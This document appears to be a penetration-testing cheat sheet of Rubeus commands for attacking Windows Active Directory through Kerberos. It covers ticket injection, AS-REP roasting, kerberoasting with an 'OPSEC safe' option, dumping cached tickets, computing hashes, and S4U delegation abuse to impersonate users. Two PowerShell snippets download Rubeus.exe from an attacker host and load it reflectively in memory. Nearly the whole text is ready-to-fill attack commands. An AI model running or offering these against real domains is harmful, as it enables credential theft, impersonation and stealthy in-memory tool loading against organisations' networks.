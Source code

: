 # rubeus

% ad, windows, rubeus

## inject ticket from file
#platform/windows #target/local #cat/UTILS  
```cmd
.\Rubeus.exe ptt /ticket:<ticket>
```

## load rubeus from powershell
#platform/windows #target/local #cat/UTILS 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<lhost>/Rubeus.exe');$assem = [System.Reflection.Assembly]::Load($data);
```

## execute rubeus from powershell
#platform/windows #target/remote #cat/UTILS 
```powershell
[Rubeus.Program]::MainString("klist");
```

## monitor
#platform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe monitor /interval:5 /filteruser:<machine_account>
```

## inject ticket from b64 blob
#platform/windows #target/local #cat/UTILS  
```cmd
.\Rubeus.exe ptt /ticket:<BASE64BLOBHERE>
```

## check ASPREPRoast for all users in current domain
#platform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast  /format:<AS_REP_response_format> /outfile:<output_hashes_file>
```

## ASREPRoast specific user
#platform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast  /user:<user> /domain:<domain_name> /format:<AS_REP_response_format> /outfile:<output_hashes_file>
```

## kerberoasting - current domain
#platform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

## Kerberoasting and outputting on a file with a specific format
#platform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name>
```

## Kerberoasting while being "OPSEC" safe, essentially while not try to roast AES enabled accounts
#platform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /rc4opsec
```

## Kerberoast AES enabled accounts
#platform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /aes
```
 
## Kerberoast specific user account
#platform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /user:<user> /simple
```

## get hash
#platform/windows #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```cmd
.\Rubeus.exe hash /user:<user> /domain:<domain_name> /password:<password>
```

## dump - will dump any relevant cached TGS ticket’s stored
#platform/windows #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
.\Rubeus.exe dump
```

## ask and inject ticket
#platform/windows #target/remote #cat/ATTACK/CONNECT 
```
.\Rubeus.exe asktgt /user:<user> /domain:<domain_name> /rc4:<ntlm_hash> /ptt
```

## S4U - with ticket - Constrained delegation
#platform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /ticket:<ticket> /impersonateuser:<user> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /ptt
```

## S4U - with hash - Constrained delegation
#platform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /user:<user> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<user_to_impersonate> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /domain:<domain_name> /ptt
```

## get rc4 of machine with the password
#platform/windows #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
.\Rubeus.exe hash /password:<machine_password>
```

## S4U - Resource based constrained delegation
#platform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:<user_to_impersonate> /msdsspn:cifs/<domain_fqdn> /domain:<domain_name> /ptt
```

## Rubeus Reflection assembly
#platform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<ip>/Rubeus.exe')  
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("<rubeus_cmd>".Split())
```

= ticket : c:\Temp\ticket.kirbi
= domain_fqdn : MYDC.mydomain.local
= domain_name : mydomain.local
= AS_REP_response_format : hashcat
